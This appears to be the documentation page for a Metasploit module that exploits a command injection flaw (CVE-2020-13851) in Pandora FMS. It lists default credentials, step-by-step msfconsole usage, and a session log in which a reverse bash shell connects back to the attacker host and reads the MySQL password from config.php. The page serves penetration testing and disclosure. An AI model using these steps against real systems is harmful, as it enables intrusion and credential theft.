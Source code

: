 ## Vulnerable Application
This module exploits a vulnerability (CVE-2020-13851) in Pandora FMS versions 7.0 NG 742, 7.0 NG 743, and 7.0 NG 744
(and perhaps older versions) in order to execute arbitrary commands.

The module first connects to the target's `index.php` page in order to verify the version number, which should be displayed here.
If the version indicates the target is likely vulnerable, the module will try to authenticate using the credentials provided by the user.
If no custom credentials are provided, the module will use the default Pandora FMS credentials, which are `admin:pandora`.

After authenticating, the module attempts to exploit CVE-2020-13851, which is a command injection vulnerability
in the `Events` feature of Pandora FMS. Specifically, this flaw allows users to execute arbitrary commands via
the `target` parameter in HTTP POST requests to the `Events` function.
In order to obtain remote code execution, the module will attempt to issue a malicious HTTP POST request to the `Events` function,
with the `target` parameter set to contain the payload.

If a shell is obtained, the module will try to obtain the local MySQL database password via a simple `grep` command on the plaintext
`/var/www/html/pandora_console/include/config.php` file.
The default MySQL administrative user is `root` and the default password for the official CentOS virtual appliance ISO is `pandora`.
For the official Docker container, the default MySQL password is `avwwoyqk`. This password can subsequently be used
in order to query the database and to escalate the privilege of any Pandora FMS account to an administrator.

Valid credentials for a Pandora FMS account are required for the module to work. The account does not need to have admin privileges.
This module has been successfully tested on Pandora 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version).

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/pandora_fms_events_exec`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the Pandora FMS account]`
6. Do: `set PASSWORD [password for the Pandora FMS account]`
7. Do: `set LHOST [IP]`
8. Do: `exploit`

## Options
### PASSWORD
The password for the Pandora FMS account to authenticate with. This option is required. The default value is `pandora`.

### TARGETURI
The base path to Pandora FMS. The default value is `/pandora_console/`.

### USERNAME
The username for the Pandora FMS account to authenticate with. This option is required. The default value is `admin`.

## Scenarios
### Pandora FMS 7.0 NG 744 running on CentOS 7 (the official virtual appliance ISO for this version).
```
msf5 exploit(linux/http/pandora_fms_events_exec) > show options

Module options (exploit/linux/http/pandora_fms_events_exec):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   PASSWORD   pandora            yes       Password to authenticate with
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.13       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                 yes       The target port (TCP)
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /pandora_console/  yes       Base path to Pandora FMS
   USERNAME   admin              yes       Username to authenticate with
   VHOST                         no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/pandora_fms_events_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Authenticated as user admin.
[*] Executing payload...
[*] Command shell session 1 opened (192.168.1.12:4444 -> 192.168.1.13:38776) at 2020-06-16 13:01:52 -0400
[*] Trying to read the MySQL DB password via `cat include/config.php | grep dbpass`. The default privileged user is `root`.

$config["dbpass"]="pandora";
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
